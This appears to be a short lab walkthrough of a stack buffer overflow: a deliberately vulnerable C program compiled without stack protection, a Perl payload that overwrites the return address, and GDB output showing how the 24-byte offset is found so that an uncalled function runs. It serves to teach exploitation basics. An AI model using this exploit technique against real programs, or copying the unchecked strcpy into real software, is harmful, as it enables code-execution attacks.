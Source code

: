 ### Compile 

> gcc oldskool.c -o oldskool -zexecstack -fno-stack-protector -g


> run `perl -e 'print "\x41"x24 . "\x18\x06\x40\x00\x00\x00\x00\x00";'`

>> How to find magic number 24
   * First of all, using gdb -q ./oldskool aaaaaaaa
   * Set the breakpoint at }
   
   ``
    void go(char *data){

        char name[8];
        strcpy(name,data);
        printf("Winner is : %s\n",name);
   >> }

   ``
   * x /40x $rsp
  
   ``
gef➤  x /40x $rsp
0x7fffffffdc20:	0x00000001	0x00000000	0xffffe130	0x00007fff
0x7fffffffdc30:	0x61616161	0x61616161	0x00000000	0x00000000
0x7fffffffdc40:	0xffffdc60	0x00007fff	0x00400616	0x00000000
0x7fffffffdc50:	0xffffdd48	0x00007fff	0x00000000	0x00000002
0x7fffffffdc60:	0x00000000	0x00000000	0xf7a32f45	0x00007fff
0x7fffffffdc70:	0x00000000	0x00000000	0xffffdd48	0x00007fff
0x7fffffffdc80:	0x00000000	0x00000002	0x004005f4	0x00000000
0x7fffffffdc90:	0x00000000	0x00000000	0xef05309b	0x3153f175
0x7fffffffdca0:	0x004004d0	0x00000000	0xffffdd40	0x00007fff
0x7fffffffdcb0:	0x00000000	0x00000000	0x00000000	0x00000000	
   ``

   * Calculate the position between the first "\x61" and the "return code" 0x00400616
   * The return code is located by disass main()
   ``
gef➤  disass main
Dump of assembler code for function main:
   0x00000000004005f4 <+0>:	push   rbp
   0x00000000004005f5 <+1>:	mov    rbp,rsp
   0x00000000004005f8 <+4>:	sub    rsp,0x10
   0x00000000004005fc <+8>:	mov    DWORD PTR [rbp-0x4],edi
   0x00000000004005ff <+11>:	mov    QWORD PTR [rbp-0x10],rsi
   0x0000000000400603 <+15>:	mov    rax,QWORD PTR [rbp-0x10]
   0x0000000000400607 <+19>:	add    rax,0x8
   0x000000000040060b <+23>:	mov    rax,QWORD PTR [rax]
   0x000000000040060e <+26>:	mov    rdi,rax
   0x0000000000400611 <+29>:	call   0x4005bd <go>
   0x0000000000400616 <+34>:	leave  
   0x0000000000400617 <+35>:	ret  
   ``

* By running GDB command aboved, function "nasty()" can be executed as expected.

* "a little nasty" will be print according to the nasty(), which has not been called in the main().


